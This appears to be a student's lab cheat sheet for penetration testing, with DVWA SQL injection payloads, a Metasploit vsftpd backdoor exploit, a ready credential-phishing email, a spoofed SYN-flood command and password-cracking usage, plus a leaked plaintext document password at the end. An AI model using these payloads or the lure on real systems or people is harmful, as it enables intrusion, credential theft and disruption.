 # SQLi
When DVWA security is set to LOW:

1.)Reveals all user is:1' OR '1'='1'#

2.)Reveals name of all tables in the database:'UNION SELECT table_name, NULL FROM information_schema.tables#

3.)Reveals all the column names form 'users' table:'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#

4.)Reveals all the usernames and password hashes:'UNION SELECT user, password FROM users#

# Siteclone
https://facebook.com

# John the Ripper
https://www.stationx.net/how-to-use-hydra/

# netdiscover
Command | Explanation

sudo netdiscover | Auto-scans your current subnet to find live hosts.

sudo netdiscover -r 192.168.1.0/24 | Scans a specific subnet range manually.

sudo netdiscover -f | Performs a fast scan with less accuracy.

sudo netdiscover -i eth0 | Uses a specific network interface (e.g., eth0 or wlan0).

sudo netdiscover -r 192.168.1.0/24 > output.txt | Saves scan results to a text file.

sudo netdiscover -s | Continuously scans and updates live devices in real-time.

sudo netdiscover -p | Passive mode: silently listens to ARP traffic without sending packets.

# Phishing
Subject: [Action Required] System Security Update – Verify Your Account

Dear [Employee Name],

As part of our institution's routine security maintenance, we are rolling out an update to the internal login portal. To ensure uninterrupted access, all users are required to re-authenticate their credentials.

Please verify your account by visiting the secure portal at the link below:

https://institution-login-verification.example.com

This must be completed by 6:00 PM today to prevent temporary access restrictions.

Thank you for your prompt attention.

Sincerely,
IT Support Team
[Institution Name]

# Extra
* Metasploitable2 exploit:

https://rajeshmenghwar.medium.com/introduction-abdc1c5cd41b

search vsftpd
use exploit /unix/ftp/vsftpd_234_backdoor
show options
set rhosts 10.0.2.8
exploit


* Csec exploit:
https://medium.com/@sanjaisaayuj/csec-vulnhub-walk-through-d1de814a9f63

https://blog.razrsec.uk/basic-pentesting-1-walkthrough/

https://medium.com/@z6157881/basic-pentesting-1-walkthrough-vulnhub-00b1fe084167

* Corrosion2:
https://medium.com/@z6157881/corrosion-2-vulnhub-walkthrough-30c00787fa5d

https://www.hackingarticles.in/corrosion-2-vulnhub-walkthrough/


* SQL injections:
https://medium.com/@aayushtiruwa120/dvwa-sql-injection-91b4efb683e4

When DVWA security is set to LOW:
1.)Reveals all user is:1' OR '1'='1'#
2.)Reveals name of all tables in the database:'UNION SELECT table_name, NULL FROM information_schema.tables#
3.)Reveals all the column names form 'users' table:'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#
4.)Reveals all the usernames and password hashes:'UNION SELECT user, password FROM users#


* SET alpha numeric:
sudo setoolkit
1) Social-Engineering Attacks
9) Powershell Attack Vectors
3) PowerShell Alphanumeric Shellcode Injector


* Dos Attack:
sudo hping3 -S <target IP> -a <fake src IP> -p <port(s)> --flood` | SYN Flood attack |
ip.addr==<kalivm>

* Passcracking:
 ?d = digit, ?l = lowercase, ?u = uppercase, ?s = special char

| Command                                                                                                     | Description         |
| ----------------------------------------------------------------------------------------------------------- | ------------------- |
| `hashcat -m <mode> -a <attack-mode> hash.txt wordlist.txt`                                                  | General format      |
| `sudo apt install wordlists`<br>`gunzip rockyou.txt.gz`                                                     | Install wordlists   |
| Modes: `0=MD5`, `100=SHA1`, `1700=SHA2-512`, `22000=WPA`                                                    | Hash types          |
| Masks: `?d?d?d?d`, `?l?l?l`, `?u?u`, `?a`                                                                   | Brute-force symbols |
| Attack Modes: `0=Dict`, `1=Combo`, `3=Brute`, `6=Hybrid Left`, `7=Hybrid Right`                             |                     |
| Options: `--session`, `--status`, `--force`, `-o`, `--remove`, `--benchmark`, `--restore`, `--potfile-path` |                     |


https://www.stationx.net/how-to-use-hydra/?utm_source=chatgpt.com

git clone https://github.com/openwall/john.git
cd john/run
office2john.py >> Helps extract password hashes from the documents
python3 office2john.py <Document.extension > = Password hash





















































________________________



\\\10.125.100.100    

The key to vapt docx is : PwD#2424
